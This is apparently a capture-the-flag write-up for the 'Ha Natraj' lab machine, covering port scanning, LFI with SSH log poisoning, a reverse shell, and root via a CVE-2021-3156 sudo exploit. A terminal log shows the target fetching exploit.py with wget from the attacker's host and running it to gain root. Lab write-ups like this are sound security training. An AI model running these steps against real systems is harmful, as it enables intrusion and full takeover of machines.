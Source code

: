 ```yaml
---
title: Ha Natraj
categories: [Proving Grounds, Play]
tags: [LFI, PrivEsc, auth.log, sudo exploit]
image:
  path: /Vulnhub-Files/img/Ha-Natraj/Untitled%201.png
  alt:  Ha Natraj Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled.png)

```bash
IP : 192.168.249.135
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Ha_natraj]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.135                                                                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-18 08:01 EDT
Nmap scan report for 192.168.249.135
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F7:80:5D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%201.png)

Now lets see the directory traveral files/directories →

```bash
200      GET      183l     1767w    14497c http://192.168.249.135/
301      GET        9l       28w      319c http://192.168.249.135/images => http://192.168.249.135/images/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/images (Apache)
200      GET      183l     1767w    14497c http://192.168.249.135/index.html
301      GET        9l       28w      320c http://192.168.249.135/console => http://192.168.249.135/console/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/console (Apache)
```
{: .nolineno}

Let’s look for LFI in `/console/` directory→

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%203.png)

Now I found a `auth.log` file where I found ssh login logs →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%204.png)

Now I have to try `ssh poisoning` to get the command execution running →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%205.png)

Now lets see the response in auth.log file →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%206.png)

After this lets try command injection through `cmd` →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%207.png)

Its reverse Shell time →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%208.png)

Now In response I got the shell →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%209.png)

Now I found nothing so far , therefore I got to know about sudo version and exploited it →

```bash
www-data@ubuntu:/var/www/html$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
{: .nolineno}

Now After recon I found the exploit →

➡️ [https://github.com/worawit/CVE-2021-3156/tree/main](https://github.com/worawit/CVE-2021-3156/tree/main)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%2010.png)

Now lets copy this exploit into our system →

```bash
www-data@ubuntu:/tmp$ wget http://192.168.249.128:8888/exploit.py
--2023-05-19 00:57:26--  http://192.168.249.128:8888/exploit.py
Connecting to 192.168.249.128:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit.py'

exploit.py          100%[===================>]   7.99K  --.-KB/s    in 0s      

2023-05-19 00:57:26 (483 MB/s) - 'exploit.py' saved [8179/8179]

www-data@ubuntu:/tmp$ ls
exploit.py
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.135
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.135'
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.128
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.128'
www-data@ubuntu:/tmp$ python3 exploit.py                
# /bin/bash
root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ubuntu:/tmp# hostname
ubuntu
root@ubuntu:/tmp# cd ~
root@ubuntu:/root# ls -al
total 24
drwx------  3 root root 4096 Jun  3  2020 .
drwxr-xr-x 22 root root 4096 Jun  3  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jun  3  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1592 Jun  3  2020 root.txt
root@ubuntu:/root# cat root.txt

███▄▄▄▄      ▄████████     ███        ▄████████    ▄████████      ▄█ 
███▀▀▀██▄   ███    ███ ▀█████████▄   ███    ███   ███    ███     ███ 
███   ███   ███    ███    ▀███▀▀██   ███    ███   ███    ███     ███ 
███   ███   ███    ███     ███   ▀  ▄███▄▄▄▄██▀   ███    ███     ███ 
███   ███ ▀███████████     ███     ▀▀███▀▀▀▀▀   ▀███████████     ███ 
███   ███   ███    ███     ███     ▀███████████   ███    ███     ███ 
███   ███   ███    ███     ███       ███    ███   ███    ███     ███ 
 ▀█   █▀    ███    █▀     ▄████▀     ███    ███   ███    █▀  █▄ ▄███ 
                                     ███    ███              ▀▀▀▀▀▀  

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://www.linkedin.com/in/geet-madan/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
root@ubuntu:/root#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
